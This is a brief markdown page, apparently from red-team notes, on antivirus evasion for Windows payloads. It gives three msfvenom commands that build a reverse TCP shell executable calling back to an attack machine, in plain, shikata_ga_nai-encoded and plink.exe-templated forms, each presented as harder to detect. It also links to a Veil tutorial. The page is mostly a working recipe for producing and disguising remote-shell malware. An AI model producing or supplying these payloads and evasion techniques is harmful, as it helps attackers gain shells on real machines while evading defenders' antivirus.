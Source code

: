 # Antivirus evasion

The easiest way to test payloads is to upload them to [VirusTotal](https://www.virustotal.com/#/home/upload). They share uploads with anti-malware companies so if you're planning to use a payload in a red team operation, it might be better to test it in a VM with your target network's antivirus installed.

Most antivirus software will detect unencoded payloads like this:
```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -o evil.exe
```
Even when a payload is encoded with [shikata ga nai](https://security.stackexchange.com/questions/130256/what-is-shikata-ga-nai) it is still generally detectable by antivirus because the executable template is recognized:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -o evil.exe
```
Embedding the shellcode in a Windows PE executable is a little less detectable: 
```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o
evil.exe
```
## Further reading
* [Veil tutorial](https://www.veil-framework.com/veil-tutorial/)

